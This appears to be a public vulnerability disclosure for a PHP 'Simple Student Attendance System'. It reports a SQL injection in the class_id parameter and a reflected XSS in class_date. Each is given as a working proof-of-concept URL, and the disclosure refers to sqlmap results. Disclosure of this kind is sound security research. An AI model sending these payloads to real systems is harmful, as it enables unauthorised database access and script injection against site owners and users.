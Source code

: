 ### Exploit Title: Simple Student Attendance System - Multiple vulnerabilities
### Date: 2024-02/23
### Exploit Author: xiahao@webray.com.cn
### Vendor Homepage: https://www.sourcecodester.com
### Software Link: https://www.sourcecodester.com/php/17018/simple-student-attendance-system-using-php-and-mysql.html
### Version: 1.0
### Tested on: windows10 + phpstudy

# 1./?page=attendance（SQL injections）
/?page=attendance SQL injection exists for parameter class_id

### Sample request POC #1

```
http://localhost:8889/?page=attendance&class_id=1%27%20AND%20GTID_SUBSET(CONCAT(0x7170707a71,(SELECT%20(ELT(5168=5168,1))),0x71706a7871),5168)%20AND%20%27rlSy%27=%27rlSy&class_date=2024-02-23
```
### Sqlmap running results
![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/1708681814551.jpg "Simple Student Attendance System")

![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/1708681843042.jpg "Simple Student Attendance System")


# 2./?page=attendance（XSS）
/?page=attendance XSS exists for parameter class_date

### Sample request POC #2

```
http://localhost:8889/?page=attendance&class_id=1&class_date=2024-02-23%22%3E%3Cscript%3Ealert(1)%3C/script%3E
```
### Sqlmap running results
![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/1708682117907.jpg "Simple Student Attendance System")


